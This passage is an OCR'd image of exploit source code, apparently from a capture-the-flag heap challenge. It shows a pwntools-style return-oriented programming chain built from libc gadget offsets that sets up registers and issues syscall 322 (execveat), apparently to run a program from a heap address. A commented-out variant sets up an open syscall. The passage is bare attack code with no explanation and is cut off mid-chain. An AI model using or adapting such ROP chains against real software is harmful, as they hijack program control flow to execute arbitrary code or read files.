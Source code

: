             0xa8: flat(

                libc.address + 0x0000000000023e6a, # pop rsi; ret;

                libc.address + 0x0000000000023e6a, # pop rsi; ret;

                heap + 0x800,

                libc.address + 0x000000000002155f, # pop rdi; ret;

                0,

                libc.address + 0x00000000001306b4, # pop rdx; pop r10; ret;

                0,

                0,

                libc.address + 0x000000000003eb0b, # pop rcx; ret;

                0,

                libc.address + 0x0000000000155fc6, # pop r8; mov eax, 1; ret;

                0,

​

                libc.address + 0x00000000000439c8, # pop rax; ret;

                322,

                libc.address + 0x00000000000d2975, # syscall; ret;

​

​

                # libc.address + 0x0000000000023e6a, # pop rsi; ret;

                # libc.address + 0x0000000000023e6a, # pop rsi; ret;

                # 0,

                # libc.address + 0x000000000002155f, # pop rdi; ret;

                # heap + 0x800,

                # libc.address + 0x00000000000439c8, # pop rax; ret;

                # 2,
